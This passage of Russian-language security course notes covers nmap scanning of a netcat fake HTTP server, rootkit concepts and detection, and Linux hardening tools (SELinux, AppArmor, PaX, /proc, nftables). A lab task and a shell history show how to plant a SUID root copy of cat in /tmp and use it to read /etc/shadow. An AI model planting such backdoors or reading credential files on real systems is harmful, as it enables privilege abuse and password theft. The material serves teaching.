	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	GET / HTTP/1.1
	Host: localhost:8080
	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	GET / HTTP/1.1
	Host: localhost:8080
	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

Сервер возвращает случайные коды:

	$ while true; do cat a | nc -l -p 8080 | ./http.sh > a; done
	GET / HTTP/1.0

	ieU��random1random2random3random4
	                                 /
	GET / HTTP/1.1
	Connection: close
	Host: localhost:8080
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	GET /favicon.ico HTTP/1.1
	Connection: close
	Host: localhost:8080
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	�f��Q�%�/N�+����l[��f#B�i�

	                          H� �Vd�
	                                 �b%�]eWP]�25>�F�w�%شJueJ�395/�,�0��̨̩̪���������]�a�W�S�+�/������������`�V�R�$�(kj�s�w�
	�8���	�2��ED������Q������P=�<���A�
	                                    	localhost

	*(
	GET / HTTP/1.1
	Connection: close
	Host: localhost:8080
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

Результат:

	$ nmap -A localhost -p 8080
	PORT     STATE SERVICE     VERSION
	8080/tcp open  http-proxy?

Сервер не распознан. Что не мешает злоумышленнику работать с ним. 

Вывод. От nmap можно спрятать сервер, если разместить его вне диапазона портов, 
сканируемых по-умолчанию и нарушить алгоритм его работы. 
На действия злоумышленника это никак не повлияет.

### Расшифровка http-траффика с Wireshark



Провели сканирование фэйкового http-сервера и получили следующий траффик:



### Задача:
Провести сканирование собственного хоста с проброшенным портом и:

- определить факт сканирования по данным wireshark
- определить используемое ПО

## Подробнее про сканирование

Cocтояния порта:
- open (открытый порт)  — порт открыт, и служба принимает TCP- или UDP-соединения по этому порту (данный порт наиболее уязвим для взлома);
- filtered — порт закрыт брандмауэром, иной блокирующей программой или службой (правила роутера, аппаратный брандмауэр и т.п.);
- closed — порт закрыт, так как нет службы или иной программы, прослушивающей этот порт на компьютере.
- unfiltered — Nmap не смог точно определить, открыт порт или закрыт, обычно такое значение присваивается при сканировании методом ACK 

*Вывод:*

Закрыть порт нельзя никак кроме завершения процесса, его открывшего. Отфильтровать - можно.
Нет смысла "закрывать" на fw порты, которые не прослушиваются ни одной программой.

Подробнее:

[Сетевой сканер Nmap как средство аудита локальной сети](https://clck.ru/RN7sk)

## Руткиты и их обнаружение

[Установка, настройка и использование сканера уязвимостей chkrootkit](https://clck.ru/RN8GE)

Руткит (англ. rootkit, то есть «набор root-а») — набор программных средств (например, исполняемых файлов, скриптов, конфигурационных файлов), обеспечивающих:

 - маскировку объектов (процессов, файлов, каталогов, драйверов);
 - управление (событиями, происходящими в системе);
 - сбор данных (параметров системы).

Термин Rootkit исторически пришёл из мира UNIX, и под этим термином понимается набор утилит или специальный модуль ядра, которые злоумышленник устанавливает на взломанной им компьютерной системе сразу после получения прав суперпользователя. Этот набор, как правило, включает в себя разнообразные утилиты для «заметания следов» вторжения в систему, делает незаметными снифферы, сканеры, кейлоггеры, троянские программы, замещающие основные утилиты UNIX (в случае не ядерного руткита). Rootkit позволяет взломщику закрепиться во взломанной системе и скрыть следы своей деятельности путём скрытия файлов, процессов, а также самого присутствия руткита в системе.

В систему руткит может быть установлен различными способами: загрузка посредством эксплойта, после получения шелл-доступа (в таком случае, может использоваться средство типа wget или исходный FTP-клиент для загрузки руткита с удаленного устройства), в исходном коде или ресурсах программного продукта. 

- В Microsoft Windows
	- Захват таблиц вызовов
	- Перехват модификацией кода функции
	- DKOM (Direct Kernel Object Manipulation, прямая манипуляция объектами ядра)
	- Драйверы
- В UNIX и Linux
    - Подмена основных системных утилит 
    - В виде модуля ядра и основанные на патчинге VFS или перехвате таблицы системных вызовов
    - Модификация физической памяти ядра.

Поиск:

- Сигнатурный поиск. Применяется еще со времен первых антивирусов и представляет собой поиск в проверяемом файле уникальной цепочки байтов (сигнатуры), присущей вредоносной программе.
- Эвристический или поведенческий анализатор. Эта технология основывается на поиске отклонений в настройках системы, конфигурационных файлах Linux или реестре Windows, подозрительном поведении процессов и модулей и так далее.
- Контроль целостности. Этот тип поиcка основан на сравнении контрольной суммы (MD5 и тому подобное) или цифровой пoдписи разнообразных системных файлов с базой, содержащей контрольную сумму оpигинальных файлов. В случае несовпадения программа делает вывод, что файл был модифицирован или вовсе заменен.

## Лабораторные работы

1. Cоздать простейший руткит - разместить в "секретном" месте набор шелл-команд с SUID на root.
2. С его помощью создать фэйк-сервер http (код выше).
3. Попытаться обнаружить его различными типовыми сканерами.
4. Сформировать отчет на git.

## Дополнения

    tempname = md5sum(id)
    202cb962ac59075b964b07152d234b70.jpeg
    
    Если вероятность Х 1/1000 и события происходят с частотой 1Гц 
    то надо 1000 сек для наступления некоторого события Х --- неверно!
    
    На самом деле не столь важно, насколько крепок пароль
    Важно чтоб у него (с солью) не было коллизий с простым.
    
    
    x = network_read(connection);
    y = get_data(x);
    z = query(y);
    respond(z);
    
    =============================================================
    |12|--- x ----|13|----- y ------|....
        xxxxxxxxxxxxx
        <-----------+

                1234567812345678
    chmod 666 > 110110110???????
    111111111
    rwxrwxrwx
                    user группа user группа
    у процесса есть UID    GID  EUID  EGIT
    
    
    2011  ls -l /usr/bin/passwd
    2012  cat /etc/shadow
    2013  which cat
    2014  cp /bin/cat /tmp/
    2015  /tmp/cat /etc/shadow
    2016  sudo -i
    499  chown root:root /tmp/cat 
    500  chmod +s /tmp/cat 
    2017  ls -l /tmp/cat 
    2018  /tmp/cat /etc/shadow
        

# Модуль 3 Защита систем предприятия на уровне ОС
## Обзор технологий, повышающих безопасность систем на уровне ОС
### Инструмент Chroot 

chroot — операция изменения корневого каталога в Unix-подобных операционных системах. Программа, запущенная с изменённым корневым каталогом, будет иметь доступ только к файлам, содержащимся в данном каталоге. Поэтому, если нужно обеспечить программе доступ к другим каталогам или файловым системам (например, /proc), нужно заранее примонтировать в целевом каталоге необходимые каталоги или устройства.

Термин chroot может относиться или к концепции изменений корневого каталога, или к системному вызову chroot(2), или к программе chroot(8), что обычно понятно из контекста.

Изменение корневого каталога производится при помощи системного вызова chroot(2). Изменение корневого каталога затрагивает только текущий процесс (то есть процесс, сделавший системный вызов chroot(2)) и всех его потомков. Если требуется запустить некоторую программу с изменённым корневым каталогом, но в данной программе не предусмотрено выполнение вызова chroot(2), используют программу chroot(8). Эта программа принимает в качестве параметров новый корневой каталог и путь к программе. Она сначала сама выполняет вызов chroot(2) для изменения собственного корневого каталога на указанный, а затем запускает программу по заданному пути. Так как изменённый корневой каталог наследуется потомками процессов, программа запускается с изменённым корневым каталогом.

### Инструмент AppArmor 

AppArmor — программный инструмент упреждающей защиты, основанный на политиках безопасности (известных также как профили), которые определяют, к каким системным ресурсам и с какими привилегиями может получить доступ то или иное приложение. В AppArmor включён набор стандартных профилей, а также инструменты статического анализа и инструменты, основанные на обучении, позволяющие ускорить и упростить построение новых профилей.

Изначально программа была разработана компанией Immunix. После её приобретения компанией Novell инструмент был открыт под лицензией GNU GPL и включён в openSUSE. Позже адаптирован для Ubuntu.

В конце лета 2008 года Рассел Кокер, один из авторов SELinux, высказал мнение, что AppArmor бесперспективен, объяснив это тем, что даже в openSUSE появляется поддержка аналогичного и более популярного решения — SELinux. Однако вскоре разработку AppArmor продолжил сотрудник Canonical, а в июле 2010 года было объявлено о том, что AppArmor войдет в состав Linux-ядра версии 2.6.36. В мае 2013 года поддержка инструмента была внедрена в Debian 7 Wheezy.

### Инструмент SELinux 

SELinux (англ. Security-Enhanced Linux — Linux с улучшенной безопасностью) — реализация системы принудительного контроля доступа, которая может работать параллельно с классической избирательной системой контроля доступа.

Оставаясь в рамках избирательной системы контроля доступа, операционная система имеет фундаментальное ограничение в плане разделения доступа процессов к ресурсам — доступ к ресурсам основывается на правах доступа пользователя. Это классические права rwx на трех уровнях — владелец, группа-владелец и остальные.

В SELinux права доступа определяются самой системой при помощи специально определенных политик. Политики работают на уровне системных вызовов и применяются самим ядром (но можно реализовать и на уровне приложения). SELinux действует после классической модели безопасности Linux. Иными словами, через SELinux нельзя разрешить то, что запрещено через права доступа пользователей или групп. Политики описываются при помощи специального гибкого языка описания правил доступа. В большинстве случаев правила SELinux «прозрачны» для приложений, и не требуется никакой их модификации. В состав некоторых дистрибутивов входят готовые политики, в которых права могут определяться на основе совпадения типов процесса (субъекта) и файла (объекта) — это основной механизм SELinux. Две других формы контроля доступа — доступ на основе ролей и на основе многоуровневой системы безопасности.

### Инструмент Docker 

Docker — программное обеспечение для автоматизации развёртывания и управления приложениями в средах с поддержкой контейнеризации. Позволяет «упаковать» приложение со всем его окружением и зависимостями в контейнер, который может быть перенесён на любую Linux-систему с поддержкой cgroups в ядре, а также предоставляет среду по управлению контейнерами. Изначально использовал возможности LXC, с 2015 года применял собственную библиотеку, абстрагирующую виртуализационные возможности ядра Linux — libcontainer. С появлением Open Container Initiative начался переход от монолитной к модульной архитектуре.

Разрабатывается и поддерживается одноимённой компанией-стартапом, распространяется в двух редакциях — общественной (Community Edition) по лицензии Apache 2.0 и для организаций (Enterprise Edition) по проприетарной лицензии . Написан на языке Go.

Проект начат как внутренняя собственническая разработка компании dotCloud, основанной Соломоном Хайксом (Solomon Hykes) в 2008 году с целью построения публичной PaaS-платформы с поддержкой различных языков программирования. Наряду с Хайксом в первоначальной разработке значительное участие приняли инженеры dotCloud Андреа Лудзарди (Andrea Luzzardi) и Франсуа-Ксавье Бурле (François-Xavier Bourlet).

### Инструмент PaX 

В компьютерной безопасности PaX (произн. «Пакс») — это патч к ядру Linux, который предоставляет возможность настроить минимальные права доступа приложений к страницам памяти. Таким образом обеспечивается достаточно тонкая настройка, с помощью которой программам разрешается выполнять только те действия, которые необходимы, исходя из предоставляемой ими функциональности, но не более того. PaX был впервые выпущен в 2000 году. С 2014 года распространяется только в составе проекта grsecurity, который стал платным с апреля 2017 года .

PaX помечает сегмент данных программ в памяти как недоступный для исполнения (так как он по определению не может содержать программных директив, которые необходимо выполнить), а сегмент кода — как не перезаписываемый, и, в придачу, при каждом запросе выделяет память программе из произвольных мест (рандомизация страниц памяти). Любая программа, которая пытается передать управление коду, находящемуся в недоступной для исполнения памяти, принудительно завершается.

Эта методика эффективна против применения различных эксплоитов, использующих, например, уязвимость, основанную на переполнении буфера памяти. Такая защита изначально полностью предотвращает прямое выполнение кода из памяти, и одновременно, с прикладной точки зрения, делает, так называемые, return-to-libc (ret2libc) атаки сложными для выполнения (они становятся выполняемыми скорее наудачу, без заранее предсказуемого результата). Однако, вместе с тем, PaX не предотвращает ошибки, приводящие к возможности переопределения переменных и значений указателей.

### Инструмент grsecurity 

Grsecurity — проприетарный набор модификаций (патч) для ядра Linux, который включает в себя некоторые улучшения, связанные с безопасностью, включая защиту памяти ядра и пользовательских процессов, принудительный контроль доступа, рандомизацию расположения объектов в памяти, ограничения доступа к файлам в /proc, ограничения доступа к системным интерфейсам внутри chroot() jail, ограничения на использование серверных и клиентских сетевых сокетов, а также дополнительные возможности аудита активности процессов и некоторые другие функции. Типичной областью применения являются системы, которые могут принимать сетевые подключения из потенциально опасных источников: такие как серверы различных сетевых служб (например, веб-серверы) или серверы, предоставляющие своим пользователям shell-доступ. Патч grsecurity с 2001 года выпускался на условиях лицензии GPL версии 2, и включает в себя набор патчей PaX. С 26 апреля 2017 года исходные коды grsecurity и связанных патчей больше не доступны для скачивания, а их распространение производится только на платной основе. Создатель и ведущий разработчик grsecurity — Brad Spengler, также известный под псевдонимом spender. 

Изначально патч grsecurity являлся общедоступным и свободным ПО. В 2015 году, после споров о некорректном использовании торговой марки grsecurity автор патча решил прекратить свободное (неограниченное) распространение кодов стабильной версии патча для всех желающих. Тестовые версии grsecurity  в виде единого патча без разбивки на серии на тот момент оставались общедоступными.

С 26 апреля 2017 года был закрыт свободный доступ к тестовым версиям патча grsecurity (а также PaX), вероятно из-за конфликта с KSPP  или Wind River.  Последней общедоступной версией стал тестовый патч для ядра Linux 4.9 версии. Более новые версии становятся доступными лишь для коммерческих подписчиков компании "Open Source Security Inc" (разработчик патча с 2008 года, штат Пенсильвания), в рамках отдельного соглашения о предоставлении услуг.

## Файловая система /proc

[Программирование в Linux. Файловая система /proc](https://clck.ru/RPD9f)

Файловая система `/proc` является особой для GNU/Linux. Это виртуальная файловая система и она не занимает места на вашем диске. Это очень удобный способ получить информацию о системе, тем более, что большинство файлов в этом каталоге читаемы для человека (ну хорошо, с небольшой помощью). Большинство программ реально получают информацию из файлов в `/proc`, форматируют их своим способом, а затем отображают. Так делают все программы, которые отображают информацию о процессах, и некоторые из них мы уже видели (top, ps и сотоварищи). `/proc` это также хороший источник информации о ваших аппаратных средствах, и таким же образом некоторые программы являются только интерфейсами к информации, содержащейся в `/proc`.

Существует также специальный подкаталог `/proc/sys`. Он позволяет изменять некоторые параметры ядра в реальном режиме времени или отображать их.

### Информация о Процессах

Если вы пролистаете содержимое каталога `/proc`, вы увидите много каталогов, названиями которых являются номера. Эти каталоги содержат информацию о все запущенных в данный момент процессах в системе:

	$ ls -d /proc/[0-9]*
	/proc/1/    /proc/302/  /proc/451/  /proc/496/  /proc/556/  /proc/633/
	/proc/127/  /proc/317/  /proc/452/  /proc/497/  /proc/557/  /proc/718/
	/proc/2/    /proc/339/  /proc/453/  /proc/5/    /proc/558/  /proc/755/
	/proc/250/  /proc/385/  /proc/454/  /proc/501/  /proc/559/  /proc/760/
	/proc/260/  /proc/4/    /proc/455/  /proc/504/  /proc/565/  /proc/761/
	/proc/275/  /proc/402/  /proc/463/  /proc/505/  /proc/569/  /proc/769/
	/proc/290/  /proc/433/  /proc/487/  /proc/509/  /proc/594/  /proc/774/
	/proc/3/    /proc/450/  /proc/491/  /proc/554/  /proc/595/

Имейте в виду, что как пользователь, вы можете увидеть информацию только о своих собственных процессах. Для других пользователей вы такой информации не получите. Поэтому перейдем в root и посмотрим какая информация доступна для процесса 127:

	$ su
	Password:
	# cd /proc/127
	# ls -l
	total 0
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 cmdline
	lrwx- - - - - -      1 root     root            0 Dec 14 19:53 cwd -> //
	-r- - - - - - - -    1 root     root            0 Dec 14 19:53 environ
	lrwx- - - - - -      1 root     root            0 Dec 14 19:53 exe -> /usr/sbin/apmd*
	dr-x- - - - - -      2 root     root            0 Dec 14 19:53 fd/
	pr- -r- -r- -        1 root     root            0 Dec 14 19:53 maps|
	-rw- - - - - - -     1 root     root            0 Dec 14 19:53 mem
	lrwx- - - - - -      1 root     root            0 Dec 14 19:53 root -> //
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 stat
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 statm
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 status
	#

Каждый каталог содержит одинаковые входы. Вот краткое описание некоторых из них:

- cmdline: этот (псевдо-) файл содержит целую командную строку, использованную для вызова процесса. Он не отформатирован: нет пробелов между программой и ее аргументами, и нет разделителя в конце строки. Чтобы посмотреть его, вы можете использовать: perl -ple 's,\00, ,g' cmdline.

- cwd: это символическая ссылка на текущий рабочий каталог (следует из имени) процесса.

- environ Этот файл содержит все переменные окружения, определенные для процесса, в форме VARIABLE=value. Подобно cmdline, вывод не форматирован вообще: нет разделителей между различными переменными, и нет разделителя в конце. Единственное решение как его посмотреть: perl -pl -e 's,\00,\n,g' environ.

- exe: это символическая ссылка на соответствующий запущенному процессу выполняемый файл.

- fd: этот подкаталог содержит список файловых дескрипторов, открытых процессом в данный момент. Смотрите ниже.

- maps: когда вы выводите содержимое именованной трубы (с помощью cat, например), вы можете видеть части адресного пространства процесса, которые в текущий момент отображаются в файле. Слева направо это поля: адресное пространство, связанное с этим отображением, права отображения, смещение с начала файла, где начинаются отображения, страший и младший номер (в шестнадцатиричном формате) устройства, где хранится файл отображения, номер узла файла и, последнее, имя файла. Когда устройство обозначено как 0 и нет номера узла и имени файла - это анонимное отображение.

- root: Это символическая ссылка на корневой каталог, используемый процессом. Обычно это будет /.

- status: этот файл содержит различную информацию о процессе: название выполняемой программы, его текущее состояние, его PID и PPID, его реальные и эффективные UID и GID, использование им памяти, и другое.

Если мы выведем список файлов каталога fd для нашего процесса 127, мы получим следующее:

	# ls -l fd
	total 0
	lrwx- - - - - -    1 root     root           64 Dec 16 22:04 0 -> /dev/console
	l-wx- - - - - -    1 root     root           64 Dec 16 22:04 1 -> pipe:[128]
	l-wx- - - - - -    1 root     root           64 Dec 16 22:04 2 -> pipe:[129]
	l-wx- - - - - -    1 root     root           64 Dec 16 22:04 21 -> pipe:[130]
	lrwx- - - - - -    1 root     root           64 Dec 16 22:04 3 -> /dev/apm_bios
	lr-x- - - - - -    1 root     root           64 Dec 16 22:04 7 -> pipe:[130]
	lrwx- - - - - -    1 root     root           64 Dec 16 22:04 9 ->
	/dev/console
	#

Фактически, это список файловых дескрипторов, открытых процессом. Каждый открытый дескриптор обозначен символической ссылкой, именем каждого номера дескриптора, и указателем на файл, открытый этим дескриптором. Обратите также внимание на права symlinks: это единственное место, где они имеют смысл, поскольку они представляют права, с которыми файл, соответствующий дескриптору, был открыт. 

### Информация об aппаратном oбеспечении

Кроме каталогов, связанных с различными процессами, `/proc` также содержит несметное количество информации об аппаратном обеспечении вашей машины. Список файлов каталога `/proc` показывает следующее:

	$ ls -d [a-z]*
	apm      dma          interrupts  loadavg  mounts      rtc       swaps
	bus/     fb           ioports     locks    mtrr        scsi/     sys/
	cmdline  filesystems  kcore       meminfo  net/        self/     tty/
	cpuinfo  fs/          kmsg        misc     partitions  slabinfo  uptime
	devices  ide/         ksyms       modules  pci         stat      version
	$

Если мы посмотрим, например, содержимое `/proc/interrupts`, мы можем увидеть, что тут есть список прерываний, используемых системой на данный момент, а также периферийных устройств, которые держат их. Точно так же, каталог ioports содержит список адресных интервалов ввода-вывода, занятых в настоящее время , и наконец, dma делает то же самое для каналов DMA. Поэтому, чтобы найти конфликт, нужно смотреть содержание этих трех файлов:

	$ cat interrupts
	           CPU0
	  0:     127648          XT-PIC  timer
	  1:       5191          XT-PIC  keyboard
	  2:          0          XT-PIC  cascade
	  5:       1402          XT-PIC  xirc2ps_cs
	  8:          1          XT-PIC  rtc
	 10:          0          XT-PIC  ESS Solo1
	 12:       2631          XT-PIC  PS/2 Mouse
	 13:          1          XT-PIC  fpu
	 14:      73434          XT-PIC  ide0
	 15:      80234          XT-PIC  ide1
	NMI:          0

	$ cat ioports
	0000-001f : dma1
	0020-003f : pic1
	0040-005f : timer
	0060-006f : keyboard
	0070-007f : rtc
	0080-008f : dma page reg
	00a0-00bf : pic2
	00c0-00df : dma2
	00f0-00ff : fpu
	0170-0177 : ide1
	01f0-01f7 : ide0
	0300-030f : xirc2ps_cs
	0376-0376 : ide1
	03c0-03df : vga+
	03f6-03f6 : ide0
	03f8-03ff : serial(auto)
	1050-1057 : ide0
	1058-105f : ide1
	1080-108f : ESS Solo1
	10c0-10cf : ESS Solo1
	10d4-10df : ESS Solo1
	10ec-10ef : ESS Solo1

	$ cat dma
	 4: cascade

Или проще, использовать команду lsdev, которая получает информацию из этих трех файлов и сортирует ее по периферийным устройствам:

	$ lsdev
	Device            DMA   IRQ  I/O Ports
	- - ----------------------------------------------
	cascade             4     2
	dma                          0080-008f
	dma1                         0000-001f
	dma2                         00c0-00df
	ESS                          1080-108f 10c0-10cf 10d4-10df 10ec-10ef
	fpu                      13  00f0-00ff
	ide0                     14  01f0-01f7 03f6-03f6 1050-1057
	ide1                     15  0170-0177 0376-0376 1058-105f
	keyboard                  1  0060-006f
	Mouse                    12
	pic1                         0020-003f
	pic2                         00a0-00bf
	rtc                       8  0070-007f
	serial                       03f8-03ff
	Solo1                    10
	timer                     0  0040-005f
	vga+                         03c0-03df
	xirc2ps_cs                5  0300-030f

Полная распечатка файлов была бы слишком длинной, тем не менее приведем описание некоторых из них:

- cpuinfo: этот файл содержит, соответственно своему названию, информацию о процессоре(рах) в вашей машине.

- modules: этот файл содержит список модулей, которые используются ядром в данный момент, а также процент использования для каждого модуля. Фактически, это та же самая информация, которую предоставляет команда lsmod.

- meminfo: этот файл предоставляет информацию о загрузке памяти на момент запроса. Более аккуратно форматированный вид этой же информации можно получить командой free.

- apm: если у вас портативный компьютер, то вывод этого файла предоставит вам информацию о состоянии батарей. Вы сможете увидеть куда подключен AC, текущую загрузку батарей, и, если APM BIOS вашего ноутбука поддерживает это (к сожалению это не всегда так), то вы сможете увидеть еще и сколько времени в минутах батареи смогут проработать. Файл не очень читаем, поэтому лучше использовать вместо него команду apm, которая предоставит информацию в "человекочитаемом" виде.

- bus: этот подкаталог предоставит вам информацию о всех периферийных устройствах, найденных на различных шинах вашего компьютера. Информация внутри него редко вообще читаема, и главным образом с ней имеют дело и умеют форматировать внешние утилиты, такие как: lspcidrake, lspnp, и др..

## Подкаталог /proc/sys

Задача этого каталога - сообщать о различных параметрах ядра и позволять замену некоторых из них в реальном режиме времени. В противоположность всем другим файлам каталога /proc, некоторые файлы этого каталога могут быть записаны, но только под root

Список каталогов и файлов был бы слишком большим, тем более что их наличие преимущественно зависит от конкретно вашей системы, а большинство файлов будет использоваться только для очень специализированных приложений. Тем не менее, приведем три обычных случая использования этого подкаталога:

Разрешение роутинга: Даже если заданное по умолчанию ядро от Mandrake Linux может роутить, вы должны явно позволить ему это делать. Для этого нужно под root напечатать следующее:

    # echo 1 > /proc/sys/net/ipv4/ip_forward

Замените 1 на 0, если вы хотите запретить роутинг.

Предотвращение подмены IP: имитация IP состоит в том, чтобы заставить интерфейс поверить в то, что пакет, пришедший из мира, является его собственным, вышедшим из него пакетом. Эта техника очень часто используется кракерами [23], но вы можете заставить ядро предотвращать такие вторжения. Вам только нужно написать:

    # echo 1 > /proc/sys/net/ipv4/conf/all/rp_filter

и все типы таких атак становятся невозможными.

Увеличение размера таблицы открытых файлов и таблицы inode: Размер таблицы открытых файлов и таблицы inode является динамическим под GNU/Linux. Значений по умолчанию обычно достаточно, но они могут быть недостаточными если ваша машина - нагруженный сервер (например, сервер баз данных). Реально, первым препятствием может стать тот факт, что процессы больше не смогут открывать файлы по той причине, что таблица полна, поэтому вам нужно увеличить ее размер. В то же время вам нужно будет увеличить и размер таблицы inode. Вот две строчки, которые решают эту проблему:

    $ echo 8192 > /proc/sys/fs/file-max
    $ echo 16384 > /proc/sys/fs/inode-max

Чтобы это выполнялось при каждой загрузке системы, вы можете добавить все эти строки в /etc/rc.d/rc.local и таким образом избежать их набора каждый раз заново, но есть и другое решение, состоящее в том, чтобы заполнить файл /etc/sysctl.conf.

## Сравнение iptables и nftables

[iptables против nftables: в чем разница?](https://clck.ru/RPDX3)

Nftables разработан в Netfilter - той же организации, которая в настоящее время поддерживает IPTables. Он был создан для решения проблем с настройкой iptables, а именно масштабируемости и производительности. Основная идея - отказ от различных систем фильтров для ipv6 и ipv4 - инфраструктура iptables стала немного запутанной с iptables, ip6tables, arptables и ebtables, которые предоставляют разные, но схожие функции.

Nftables становится рекомендуемым брандмауэром, и администраторы Linux должны обновить свои инструменты. Сейчас самое время изучить nftables и обновить существующую конфигурацию iptables.

### Цепочки и правила в nftables

В iptables есть три цепочки по умолчанию: ввод, вывод и пересылка. Эти три «цепочки» (и другие цепочки, если они у вас настроены) содержат «правила», и iptables работает путем сопоставления сетевого трафика со списком правил в цепочке. Если исследуемый трафик не соответствует ни одному правилу, в трафике будет использоваться политика цепочки по умолчанию (т. е. ACCEPT, DROP).

Nftables работает аналогично этому, с «цепями» и «правилами». Однако он не начинается с каких-либо базовых цепей, что делает настройку немного более гибкой.

### Установка nftables в Linux

Nftables доступен во всех основных дистрибутивах Linux, и вы можете легко установить его, используя менеджер пакетов ваших дистрибутивов.

В дистрибутиве на основе Ubuntu или Debian вы можете использовать эту команду:

	sudo apt install nftables

Чтобы убедиться, что nftables запускается автоматически при перезагрузке системы, выполните:

	sudo systemctl enable nftables.service

 
### Синтаксическая разница между iptables и nftables

Nftables имеет другой и гораздо более простой синтаксис, чем iptables, отнако nftables по-прежнему принимает старый синтаксис.
Есть и утилита iptables-translate, которая будет принимать команды iptables и преобразовывать их в эквивалент nftables. Это простой способ увидеть разницу между двумя синтаксисами.

Установите iptables-translate в дистрибутиве на основе Ubuntu и Debian с помощью этой команды:

	sudo apt install iptables-nftables-compat

После установки вы можете передать синтаксис iptables команде iptables-translate, и она вернет эквивалентную команду nftables.

Давайте рассмотрим несколько примеров, чтобы вы могли увидеть, как эти команды отличаются друг от друга.

#### Блокировка входящих соединений

Эта команда заблокирует входящие соединения с IP-адреса 192.168.2.1:

	$ iptables-translate -A INPUT -s 192.168.2.1 -j DROP

	nft add rule ip filter INPUT ip saddr 192.168.2.1 counter drop

#### Разрешение входящих соединений SSH

Давайте рассмотрим еще несколько примеров – обычные вещи, которые вы обычно вводите в iptables при усилении защиты сервера Linux.

	$ iptables-translate -A INPUT -p tcp --dport 22 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT tcp dport 22 ct state new,established counter accept
 
Разрешить входящие соединения SSH из определенного диапазона IP

Если вы хотите разрешить входящие SSH-соединения с 192.168.1.0/24:

	$ iptables-translate -A INPUT -p tcp -s 192.168.1.0/24 --dport 22 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT ip saddr 192.168.1.0/24 tcp dport 22 ct state new,established counter accept

Разрешить подключения MySQL к сетевому интерфейсу eth0

	$ iptables-translate -A INPUT -i eth0 -p tcp --dport 3306 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT iifname eth0 tcp dport 3306 ct state new,established counter accept

Чтобы разрешить трафик определенного типа f, вот синтаксис для обеих команд:

	$ iptables-translate -A INPUT -p tcp -m multiport --dports 80,443 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT ip protocol tcp tcp dport { 80,443} ct state new,established counter accept

Как видно из этих примеров, синтаксис все еще очень похож на iptables, но команды немного более интуитивно понятны.

### Журналирование с помощью nftables

Опция «counter», присутствующая в приведенных выше примерах команды nft, указывает nftables подсчитывать количество раз, когда к правилу обращаются, как это делают iptables по умолчанию.

В nftables они являются необязательными и должны быть указаны.

	nft add rule ip filter INPUT ip saddr 192.168.2.1 counter accept

Nftables имеет встроенные опции для экспорта вашей конфигурации. В настоящее время он поддерживает XML и JSON.

	nft export xml

## Лабораторные работы

1) Определить файлы, открытые процессом, используя lsof и proc.

Cравнить удобство использования обоих способов.

2) Поместить fakehttp сервер (или иное приложение) в контейнер Docker

# Модуль 5 Защита сети предприятия

## Обзор решений пассивной и активной защиты периметра сети предприятия

[Сравнительный анализ решений для защиты корпоративных сетей](https://clck.ru/RQEv4)

Администрировать сетевую инфраструктуру, включая средства защиты, является не самой простой задачей, особенно когда речь идет о крупных распределенных сетях, содержащих в себе устройства разных производителей.
Администраторам необходимо постоянно контролировать настройки на всех маршрутизаторах и коммутаторах, что сильно отнимает много времени. Аудит таких систем специалистам по информационной безопасности потребует глубоких знаний по администрированию сетевых устройств разных производителей. Для решения данных проблем существуют специальные инструменты серии Firewall Analyzer, которые предназначены для объединения мониторинга и аудита различного сетевого оборудования от различных производителей в едином интерфейсе с собственной системой разграничения доступа.

